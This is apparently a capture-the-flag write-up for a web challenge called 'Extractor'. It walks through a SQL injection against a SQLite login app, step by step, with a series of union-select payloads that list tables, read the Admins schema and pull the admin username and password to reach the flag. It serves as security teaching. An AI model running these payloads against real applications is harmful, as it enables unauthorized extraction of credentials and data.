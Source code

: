 # Extractor

When we visit challenge URL we get following response

![image](https://user-images.githubusercontent.com/86155751/183261192-f97ee77f-3037-4b5a-bf69-d412981ea60b.png)

Looking everything does gave any thing back. Let's register a user name sahil, pass sahil and content sahil. And login with it we get as below profile page.

![image](https://user-images.githubusercontent.com/86155751/183261253-89bb6ca5-c685-4312-8748-3dc3ec932d3f.png)

Nothing intresting...Knock the brain and one thing to try out at such register/login related problem where database is involved is SQL.

Starting with ' to check out if some error occour.

![image](https://user-images.githubusercontent.com/86155751/183261371-5aca8020-781f-487a-8e06-8f57cae67231.png)

![image](https://user-images.githubusercontent.com/86155751/183261385-af0f3185-a08b-436c-ab75-59bdfe6d226f.png)

Now tring some SQL payloads and observing responses.
- sahil' order by 2000;--

![image](https://user-images.githubusercontent.com/86155751/183261417-f30acca3-f18d-4605-9110-533f564242eb.png)

![image](https://user-images.githubusercontent.com/86155751/183261424-61620da2-8b29-4d73-a932-96a6d817e991.png)

We observe that 4 coloumns exists.

- sahil' union select 1,2,3,4;--

![image](https://user-images.githubusercontent.com/86155751/183261468-42c86987-cde5-4ca0-aff4-b5310f9be58b.png)

![image](https://user-images.githubusercontent.com/86155751/183261477-3e660cac-4fc6-4443-9afe-ad88bdc815ac.png)

So we can inject payloads at position 2,3,4

- sahil' union select 1,sqlite_version(),3,4;--

![image](https://user-images.githubusercontent.com/86155751/183261510-973690c8-5efb-4331-8869-be9ad5f3131b.png)

![image](https://user-images.githubusercontent.com/86155751/183261516-d4c96cd9-024d-4aa6-b441-7ef60e14314f.png)

We see that version is sqlite 3.35.5 

- sahil' union SELECT 1,group_concat(tbl_name),3,4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';--

![image](https://user-images.githubusercontent.com/86155751/183261572-c8e60c70-d8bd-49db-89de-5a705c8abf83.png)

![image](https://user-images.githubusercontent.com/86155751/183261562-a0f364e1-7de3-400b-8973-2e5b33111637.png)

Getting the table names in database we got Admins,users

- sahil' union SELECT 1,sql,3,4 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name='Admins';--

![image](https://user-images.githubusercontent.com/86155751/183261635-f4fad6c8-929c-4668-9401-578bc154b315.png)

![image](https://user-images.githubusercontent.com/86155751/183261624-25344a94-e923-45de-bccd-5023f0add99f.png)

We got coloumn names - id,user,pass,content

- sahil' union SELECT 1,user,3,4 from Admins;--

![image](https://user-images.githubusercontent.com/86155751/183261692-68c1ad02-a8a4-4e1c-b653-a91d4efc338f.png)

![image](https://user-images.githubusercontent.com/86155751/183261700-a2cff96e-66f8-4752-86f2-f45ad3a60b5f.png)

There exists a user named Adminnn let's read password for it

- sahil' union SELECT 1,user,pass,content from Admins;--

![image](https://user-images.githubusercontent.com/86155751/183261751-808c2f20-ad5e-463e-b285-46db2fdda2ff.png)

![image](https://user-images.githubusercontent.com/86155751/183261760-12577a32-1cbb-410a-b73c-f4f629cc6ed6.png)

We got the flag finally :- shellctf{Sql_1Nj3c7i0n_B45iC_XD}

Hints with point values (cost) :-
- Hint 1 :--- A sample query :-username' union select 1,sqlite_version(),3,4;-- (50 pts)
- Hint 2 :--- Look in Admins table with username Adminnn  (70 pts)


